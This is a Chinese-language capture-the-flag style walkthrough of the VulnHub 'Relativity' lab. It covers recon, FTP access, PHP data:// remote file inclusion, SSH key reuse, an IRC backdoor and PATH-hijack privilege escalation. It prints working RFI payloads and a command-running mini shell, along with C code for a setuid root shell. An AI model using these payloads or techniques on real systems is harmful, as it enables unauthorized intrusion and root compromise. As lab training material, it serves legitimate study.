



下载地址
https://download.vulnhub.com/devrandom/relativity_1.0.1.zip
实战演练
使用netdiscover命令查找靶机的IP
使用nmap查看靶机开放的端口
打开浏览器

爆破目录，没找到什么
FTP登录试试
 使用anonymous登录失败，不过我注意到一个banner
使用anonymous登录失败，不过我注意到一个banner
220 Welcome to Relativity FTP (mod_sql)
成功进去了，这个目录就是http服务器的目录
在浏览器打开这个目录
查看页面源代码，好像有文件包含漏洞
我尝试了一些本地文件包含，但它没有让我任何地方。为了进入下一步，我需要一些外部阅读和灵感。对于漏洞利用，我们可以利用PHP的流包装器：PHP附带了许多用于各种URL样式协议的内置包装器，用于文件系统函数，如fopen（），copy（），file_exists（）和filesize（），这里面有篇文章的攻击应用
# simple RFI
page=data://text/plain, <?php system("whoami");?>
# base64 encoded RFI
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCJ3aG9hbWkiKTs/Pg==
# mini shell
page=data://text/plain,<?php system($_GET[cmd]);?>&cmd=id
# base64 + URL encoded mini shell (didn't work without URL encoding)
page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8%2B&cmd=id
执行成功
查看passwd文件
查看home目录下
这个目录没东西
mauk目录有个.SSH文件夹
进入可以看到有个公钥和私钥
私钥
使用私钥登录mauk账号
找到/opt下有个东西
查看端口开放情况
本地开放了6667端口
IRC（Internet Relay Chat的缩写，“因特网中继聊天”）是一种透过网络的即时聊天方式。其主要用于群体聊天，但同样也可以用于个人对个人的聊天。IRC使用的服务器端口有6667（明文传输，如irc://irc.freenode.net）、6697（SSL加密传输，如ircs://irc.freenode.net:6697）等。
靶机上面没有nc命令，不能做端口转发，那就用SSH做端口转发
kali扫描本地4444端口
这个版本存在一个后门漏洞，具体看这里
端口占用了，改一下ssh转发的端口
这个exp好像不行，换另外一种方法
测试能不能生成1文件
nc监听
看看怎么提权
运行这个程序，发现字符串不断变化
 查看这个程序的信息。
查看这个程序的信息。fortune不是从它的完整相对路径调用，但/usr/bin/cowsay是。这意味着，如果我可以欺骗二进制文件，让其他人知道这个fortune命令，那么我就可以根据这个框进行操作。特别是如果我能让它认为我的bash shell是fortune
这个可以利用这个机制进行搞事
#root.c
int main()
{
setreuid(0,0,0);
setregid(0,0,0);
system("/bin/bash");
return 0;
}
#fortune.c
int main()
{
system("chown root:root /tmp/root; chmod +s,a+rwx /tmp/root");
return 0;
}
修改环境变量
export PATH="/tmp:$PATH"
=-=好像是因为终端shell的问题，一直不行